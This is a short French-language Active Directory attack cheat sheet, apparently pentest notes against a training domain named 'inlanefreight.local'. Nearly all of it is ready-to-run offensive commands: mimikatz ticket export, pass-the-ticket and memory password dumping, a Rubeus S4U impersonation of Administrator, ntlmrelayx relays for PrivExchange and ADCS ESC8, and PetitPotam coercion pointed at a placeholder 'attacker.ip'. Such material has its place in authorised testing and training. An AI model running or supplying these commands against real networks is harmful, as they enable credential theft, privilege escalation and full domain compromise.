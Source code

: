 #### Délégation non contrainte

```powershell
# Identifier les serveurs avec délégation non contrainte
Get-DomainComputer -Unconstrained | select name

# Avec mimikatz, une fois l'accès obtenu au serveur avec délégation
sekurlsa::tickets /export
kerberos::ptt ticket.kirbi
```
### Délégation contrainte
```powershell
# Identifier les délégations contraintes
Get-DomainComputer -TrustedToAuth | select name,msds-allowedtodelegateto

# Exploiter avec Rubeus si vous avez l'accès au compte
.\Rubeus.exe s4u /user:serviceaccount$ /rc4:NTLM_HASH /impersonateuser:Administrator /msdsspn:cifs/targetserver.domain.com /altservice:LDAP,HOST,HTTP /ptt
```
### Exploitation Exchange/ADCS
#### Exchange (PrivExchange)

```bash
# Utiliser ntlmrelayx pour capturer l'authentification Exchange
ntlmrelayx.py -t ldap://dc.inlanefreight.local --escalate-user compromiseduser

# Déclencher l'authentification
python privexchange.py -ah attacker.ip -u compromiseduser -d inlanefreight.local -p Password123! exchange.inlanefreight.local
```
#### Exploitation ADCS (ESC8)
```bash
# Configuration du relais
ntlmrelayx.py -t http://ca.inlanefreight.local/certsrv/certfnsh.asp --adcs --template DomainController

# Déclencher l'authentification (Printer Bug ou PetitPotam)
python PetitPotam.py -d inlanefreight.local -u user -p password attacker.ip dc.inlanefreight.local
```
### Extraction de Credentials en Mémoire

#### Mimikatz

```powershell
# Élever les privilèges
privilege::debug

# Extraire les mots de passe en mémoire
sekurlsa::logonpasswords

# Extraire les tickets Kerberos
sekurlsa::tickets /export
```
